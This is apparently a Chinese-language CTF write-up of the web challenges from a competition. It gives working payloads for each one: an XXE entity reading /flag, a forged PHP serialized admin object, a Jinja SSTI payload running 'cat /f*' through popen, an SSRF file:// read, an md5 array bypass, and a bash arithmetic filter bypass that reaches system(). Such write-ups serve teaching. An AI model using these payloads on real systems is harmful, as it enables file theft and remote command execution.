






## WEB

### exx

这个标题以及整个界面，在NSS里面是做到过原题的，整体思路就是XXE


```
<?xml version="1.0" ?>
<!DOCTYPE note [
<!ENTITY hyh SYSTEM "file:///flag">
]>
<user>
<username>&hyh;</username>
<password>123456</password>
</user>
```

然后发包即可



### SAS - Serializing Authentication System



base64加密之后传入参数即可

```

<?php

class User {

    public $username;

    public $password;

    function __construct($username, $password) {

        $this->username = $username;

        $this->password = $password;

    }

    function isValid() { return $this->username === 'admin' && $this->password === 'secure_password'; }

}

$a=new User('admin','secure_password');
echo base64_encode(serialize($a));
```

### 一个....池子？


能够回显2



可以看出考察SSTI模板注入

```
{{lipsum.__globals__.__getitem__('os').popen('cat /f*').read()}} #直接打通
```

### 浏览器也能套娃？

这道题虽然存在XSS漏洞，但是考点是SSRF服务端请求伪造

使用协议绕过

```
file:///flag.txt
```

### 高亮主题(划掉)背景查看器



一眼文件包含，不过需要抓包



### 百万美元的诱惑

```
<?php
error_reporting(0);

$a = $_GET['a'];
$b = $_GET['b'];

$c = $_GET['c'];

if ($a !== $b && md5($a) == md5($b)) {
        if (!is_numeric($c) && $c > 2024) {
            echo "好康的";
        } else {
            die("干巴爹干巴爹先辈~");
        }
    }
else {
    die("开胃小菜))");
}
开胃小菜))
```

#?a\[\]=1&b\[\]=2&c=9999%20 绕过得到./dollar.php

```
//dollar.php
<?php
//flag in 12.php
error_reporting(0);
if(isset($_GET['x'])){
    $x = $_GET['x'];
    if(!preg_match("/[a-z0-9;`|#'\"%&\x09\x0a><.,?*\-=\\[\]]/i", $x)){
            system("cat ".$x.".php");
    }
}else{
    highlight_file(__FILE__);
}
?>
```

上面的正则表达式过滤了以下几种情况

- 小写字母 a 到 z（忽略大小写，使用 `i` 修饰符）

- 数字 0 到 9

- 特殊字符：`;`、`\``、`|`、`#`、`'`、`"`、`%`、`&`、`\\x09`（制表符）、`\\x0a`（换行符）、`\>`、`<`、`.`、`，`、`?`、`\*`、`\-`、`\=`、`\[`、`\]\`

这里只需要构造出1、2两个数字即可，用了一种很新的思路

即可以使用$、（、），~这四个字符进行构造



```
// 
x=$((~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))))))
```
